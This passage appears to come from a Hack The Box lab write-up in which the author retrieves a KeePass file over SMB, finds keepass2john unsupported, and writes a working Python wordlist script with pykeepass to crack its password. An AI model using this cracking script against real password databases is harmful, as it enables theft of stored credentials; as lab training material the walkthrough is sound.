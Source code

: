 ```
smb: \> get recovery.kdbx
getting file \recovery.kdbx of size 2677 as recovery.kdbx (1.4 KiloBytes/sec) (average 1.4 KiloBytes/sec)
smb: \> 
```

I attempted to crack the password with John. After it failed, I implemented a custom script to perform the crack.

```
venv)─(kali㉿kali)-[~/HTB-machine/puppy]
└─$ keepass2john recovery.kdbx > recovery.hash

! recovery.kdbx : File version '40000' is currently not supported!
                                                                                                                                       
┌──(venv)─(kali㉿kali)-[~/HTB-machine/puppy]

```

This is the script

```
python3 -m venv venv
source venv/bin/activate
pip install pykeepass
```

```python
import sys
from pykeepass import PyKeePass

def crack_kdbx(kdbx_file, wordlist_file):
    with open(wordlist_file, 'r', encoding='utf-8', errors='ignore') as f:
        for line in f:
            password = line.strip()
            if not password:
                continue
            try:
                kp = PyKeePass(kdbx_file, password=password)
                print(f"[+] Password found: {password}")
                return
            except Exception:
                # Password wrong, just continue trying
                pass
    print("[-] Password not found in wordlist.")

if __name__ == "__main__":
    if len(sys.argv) != 3:
        print(f"Usage: python3 {sys.argv[0]} <kdbx_file> <wordlist>")
        sys.exit(1)

    kdbx_file = sys.argv[1]
    wordlist_file = sys.argv[2]

    crack_kdbx(kdbx_file, wordlist_file)
                                               
```
